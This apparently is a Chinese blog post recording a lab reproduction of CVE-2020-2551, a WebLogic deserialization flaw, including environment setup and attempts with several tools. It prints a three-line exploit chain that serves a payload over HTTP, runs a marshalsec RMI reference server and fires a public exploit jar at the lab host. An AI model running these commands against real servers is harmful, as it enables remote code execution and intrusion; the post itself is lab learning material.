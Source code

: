 ```yaml
---
title: cve-2020-2551 weblogic的反序列化漏洞
tags:
  - 复现
  - 安全
categories:
  - 安全
copyright: true
permalink: cve-2020-2551 weblogic的反序列化漏洞
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-11-30 21:09:05
---
```


cve-2020-2551属于weblogic的反序列化漏洞
<!--more-->



## 漏洞环境

之前测试的时候是使用docker一键生成的，对搭建的过程了解的不多。这次再win10的虚拟级中搭建一次weblogic10.3.6。

简单记录
下载oracle的工具与要登录，嫌麻烦没法注册账号，就去网上找了一个公共的账号使用。
java的JDK环境不能太高使用的是1.7。刚开始使用的是1.8的发现不能启动10.3的weblogic服务。
启动服务需要输入密码，再次启动服务使用weblogic的快速启动的cmd。

## 漏洞利用

尝试了好几种利用方式，看了一部分文章。

首先尝试使用goby工具一键测试。没有问题。

然后使用了k8哥哥的Ladon工具一键poc与exp。就是执行命令起来有点麻烦，每次都要启动一个新的命令。gui的使用方式看了好几遍才发现怎么用的，它所有的插件都在扫描中。

过程中使用了菜刀、哥斯拉、蚁剑还有一些其他的可视化工具发现不行。说密码不对。头大。

然后使用github上提供的exp试了一下。

```
python -m SimpleHTTPServer 80
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.RMIRefServer "http://192.168.152.128/#exp" 1099
java -jar CVE-2020-2551.jar 192.168.152.128 7001 rmi://192.168.152.128:1099/exp
```
没有成功，我本地的java与靶机中的java版本不一致。


## 参考链接

https://xz.aliyun.com/t/7498
https://blog.csdn.net/weixin_44677409/article/details/106493733
https://blog.csdn.net/caiqiiqi/article/details/104509330?utm_medium=distribute.pc_relevant.none-task-blog-baidulandingword-2&spm=1001.2101.3001.4242


















